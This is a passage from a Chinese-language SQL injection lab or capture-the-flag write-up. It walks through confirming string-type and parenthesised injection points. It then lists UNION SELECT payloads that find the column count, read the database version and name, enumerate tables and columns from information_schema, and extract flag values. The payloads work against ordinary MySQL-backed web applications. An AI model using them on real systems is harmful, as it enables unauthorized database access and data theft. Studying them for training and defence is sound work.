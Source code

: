 那么以上我们基本就可以确定了注入点，如果还不确定可以试一试`?id=a' or 2=1 %23`。页面中必定不会显示任何数据。


<br>
#### 得到数据流程
接下来就是一样的流程
```sql
得到列数
?id=a' or 1=1 ORDER BY 3 %23  # 页面正常，显示第一条数据'
?id=a' or 1=1 ORDER BY 4 %23  # 页面报错，确定列数为3列'

联合查询注入
?id=a' UNION SELECT 1,2,3 %23    # 页面中显示1，2，3的数据'

查询当前数据库版本和数据库名
?id=a' UNION SELECT 1,version(),database() %23    # 页面回显数据'

查询当前数据库下的所有表名
?id=a' UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema='sqli12580' %23                #'

查询该表中所有的列名
?id=a' UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns where table_name='flagx' %23                #'

查询实际数据
?id=a' UNION SELECT 1,2,group_concat(flagc) FROM flagx %23                     #'
```

<br>
### other
由于白盒测试，能看见执行的SQL语句。根据sql语句，我们直接能判断是字符型的注入，只不过外面加着括号。

#### 确定注入点
在SQL注入中，我们无法看见别人构建复杂的SQL语句结构，只能根据经验去判断，去猜测。也就是说可能什么形式都有。你有你猜不到，没有你想不到。

括号在其中只是起到先执行的作用，也就是说在这条SQL语句中，有没有括号，没有任何影响。但是在注入的过程中，其实影响比较大。因为你要猜中他的构成中带有括号。

传入参数`?id=0') or 1=1 %23`，永真条件，所以页面中必定出现第一条数据。确定注入点成功。

#### 得到数据流程
接下来就是一样的流程
```sql
得到列数
?id=1') ORDER BY 3 %23  # 页面正常，显示第一条数据'
?id=1') ORDER BY 4 %23  # 页面报错，确定列数为3列'

联合查询注入
?id=0') UNION SELECT 1,2,3 %23    # 页面中显示1，2，3的数据'

查询当前数据库版本和数据库名
?id=0') UNION SELECT 1,version(),database() %23    # 页面回显数据'

查询当前数据库下的所有表名
?id=0') UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema='sqli12131' %23                #'

查询该表中所有的列名
?id=0') UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns where table_name='this_flag' %23                 #'

查询实际数据
?id=0') UNION SELECT 1,2,group_concat(flag_this) FROM this_flag %23                                      #'

```